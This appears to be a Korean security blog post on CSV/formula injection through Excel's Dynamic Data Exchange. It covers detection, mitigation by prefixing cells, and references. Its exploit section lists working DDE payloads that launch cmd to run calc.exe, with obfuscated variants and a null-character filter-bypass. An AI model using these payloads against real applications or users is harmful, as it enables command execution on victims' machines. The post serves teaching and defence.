 ```yaml
---
layout: post
title: CSV Injection
subtitle: Dynamic Data Exchange를 활용한 악성 CSV File 생성
author: g3rm
categories: Web
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - Excel
  - CSV
  - DDE
  - Formula_Injection
sidebar:
---
```

## Intro
>🚨
>현재는 사용자가 DDE 작동 허용 설정을 하더라도 DDE가 포함된 CSV 파일을 열 때, Excel 경고창이 나타도록 되어있어 사회 공학적 요소도 필요한 공격 방법입니다.

Formula Injection 취약점 내 한 종류로 분류되는 CSV Injection은 일반적으로 CSV Export 등과 같은 CSV File Download 기능에서 발생됩니다.   
☑️간혹 잘못된 로직으로 .xlsx 생성 시에 발생하기도 합니다.   

발생 원리는 DDE(Dynamic Data Exchange)라는 Window 운영체제에서 응용 프로그램 간 데이터 전송을 위해 사용되는 기능이 악의적으로 작동됨에 기반합니다.

## Detect & Exploit 
### Detect
사용자 입력 값이 CSV File Download 시 반영되는 지 확인하고, 악성 DDE를 동작시킬 수 있는 특수문자(`-`, `+`, `@`, `=` )가 Cell 가장 앞 부분에 위치할 수 있는 지 확인하면 됩니다.
또는 `=1+1` 등으로 확인하여 해당 값이 `2` 로 표기되는 지 확인하면 됩니다.
### Exploit
악성 DDE를 삽입하여 작동 여부를 살펴보면 됩니다.
```c
#Basic Payload
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0
=cmd|' /C calc'!'A1'

#Prefix obfuscation and command chaining
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
=cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
=         cmd|'/c calc.exe'!A

#Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
```
## Security Measures
악성 DDE를 동작시킬 수 있는 특수문자(`-`, `+`, `@`, `=` )가 Cell 가장 앞부분에 위치할 수 없도록 `Space`, `'` 등을 가장 앞에 삽입하여 조치하면 됩니다.
```c
'=2+5+cmd|' /C calc'!A0
 =cmd|' /C calc'!'A1'
```
## References
[Formula/CSV/Doc/LaTeX/GhostScript Injection](https://book.hacktricks.xyz/pentesting-web/formula-csv-doc-latex-ghostscript-injection)   
[OWASP-CSV Injection](https://owasp.org/www-community/attacks/CSV_Injection)   
[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSV%20Injection)